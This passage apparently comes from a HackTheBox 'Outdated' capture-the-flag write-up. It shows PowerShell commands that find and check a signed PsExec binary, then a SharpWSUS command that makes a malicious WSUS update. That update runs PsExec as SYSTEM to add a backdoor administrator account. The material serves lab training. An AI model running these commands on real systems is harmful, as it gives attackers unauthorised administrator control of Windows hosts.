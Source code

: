 The attack requires a `Microsoft Signed` tool to be executed. Our choice here would be [PsExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec), we can search for it with powershell's `Get-ChildItem` cmdlet.

```powershell
gci -Path C:\ -Recurse -ErrorAction SilentlyContinue -Include psexec*
```

![Found PsExec](/assets/hackthebox/outdated/found_psexec.png)

After that, we can verify if it is signed tool with powershell's [Get-AuthenticodeSignature] cmdlet.

```powershell
Get-AuthenticodeSignature -FilePath "C:\Users\sflowers\Desktop\PsExec64.exe"
```

![Verify psexec](/assets/hackthebox/outdated/verify_psexec.png)

Now we do have all parts of a puzzle, so let's exploit it!

## Exploit WSUS

I've had problems with powershell here, so I decided to use `cmd /c '<COMMAND>'` to make it work.

To start we should create a malicious patch. The command `create` is used here.

```powershell
cmd /c 'SharpWSUS.exe create /payload:"C:\Users\sflowers\Desktop\PsExec64.exe" /args:"-accepteula -s -d cmd.exe /c \"net user WSUSDemo Password123! /add ^& net localgroup administrators WSUSDemo /add\"" /title:"WSUSDemo"'
```
